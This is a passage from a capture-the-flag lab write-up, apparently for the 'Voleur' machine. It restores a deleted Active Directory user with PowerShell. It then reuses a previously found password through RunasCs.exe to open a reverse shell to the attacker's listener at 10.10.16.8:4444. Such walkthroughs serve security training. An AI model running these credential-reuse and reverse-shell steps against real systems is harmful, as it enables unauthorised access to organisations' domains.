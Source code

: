 ![w](/assets/img/attachments/voleur-12.png)
Lets try to restore it
```powershell
Restore-ADObject -Identity "CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb"
```
And then verify
```powershell
Get-ADUser -Identity "todd.wolfe"
```
![w](/assets/img/attachments/voleur-13.png)
The user is now enabled, and since they're part of the Remote Management group, we can log in via WinRM
I used the password we got before (NightT1meP1dg3on14) and ran Runas again.
```powershell
.\RunasCs.exe "todd.wolfe" 'NightT1meP1dg3on14' powershell.exe -r 10.10.16.8:4444
```